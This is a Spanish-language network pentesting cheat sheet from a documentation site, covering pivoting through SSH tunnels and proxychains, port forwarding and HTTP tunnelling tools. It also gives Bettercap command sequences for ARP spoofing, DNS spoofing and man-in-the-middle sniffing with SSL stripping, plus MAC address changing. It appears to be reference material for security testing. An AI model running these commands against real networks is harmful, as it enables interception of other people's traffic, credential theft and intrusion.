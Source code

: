 ```yaml
---
layout: article
title: Pentesting - Network
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Pivoting</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Proxychains</div>
</div>

* Crear túnel SSH Dinámico
~~~
ssh -D <puerto local> <user>@<ip>
~~~
Configurar proxychains
Modificar el puerto '9050' (por defecto) en la última línea por otro que deseemos, por ejemplo, '9090'
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local>
~~~

* Modificar el timeout para ganar velocidad
~~~
tcp_read_time_out 600
tcp_connect_time_out 800
~~~

* Si se quiere hacer un doble pivotaje
~~~
ssh -D <puerto local 1> <user>@<ip>
proxychains ssh -D <puerto local 2> <user>@<ip>
~~~
Configurara proxychains para el <puerto local 2>
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local 2>
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Port Forwarding</div>
</div>

~~~
ssh -R <puerto local>:localhost:<puerto local> <user>@<ip>
~~~
~~~
ssh -L <puerto local>:localhost:<puerto local> <user>@<ip>
~~~

**SSH Pivoting**
~~~
$ ssh <user>@<ip> -L <puerto local>:<host víctima>:<puerto víctima> -N
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Túneles HTTP</div>
</div>

**ReGeorg**

[https://github.com/sensepost/reGeorg.git](https://github.com/sensepost/reGeorg.git)

**SSF**

[https://github.com/securesocketfunneling/ssf.git](https://github.com/securesocketfunneling/ssf.git)

<h2>DNS Spoofing</h2>

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

Ver los equipos de la red, seleccionar el host para realizar el ARP Spoofing y ejecutarlo
~~~
> net.show
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
~~~

Establecer el dominio, tanto local como externo (con dns.spoof.all)
~~~
> set dns.spoof.domains apache.org
> set dns.spoof.all true
> dns.spoof on
~~~

Crear un servidor local con http.server (u otros métodos)
~~~
> set http.server.path /var/www/html
> http.server on
~~~

<h2>MAC</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Cambiar MAC</div>
</div>

~~~bash
sudo macchanger -a wlo1
~~~

~~~bash
sudo airmon-ng start wlo1
airodump-ng –c <canal>–bssid <MAC del router objetivo>–i wlo1mon
sudo airmon-ng stop wlo1mon
sudo ifconfig wlo1 down
sudo macchanger -m <Nueva MAC> wlo1
sudo ifconfig wlo1 up
~~~

<h2>ARP Spoofing</h2>

**Bettercap**

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

~~~
> net.show
> set arp.spoof.targets 192.168.5.99
> arp.spoof on
~~~

<h2>Proxy MiTM</h2>

**Bettercap**

~~~
> set net.sniff.verbose false
> net.sniff on
> set http.proxy.sslstrip true
> http.proxy on
~~~



<h2>Recursos adicionales</h2>

[https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html](https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html)

[https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)
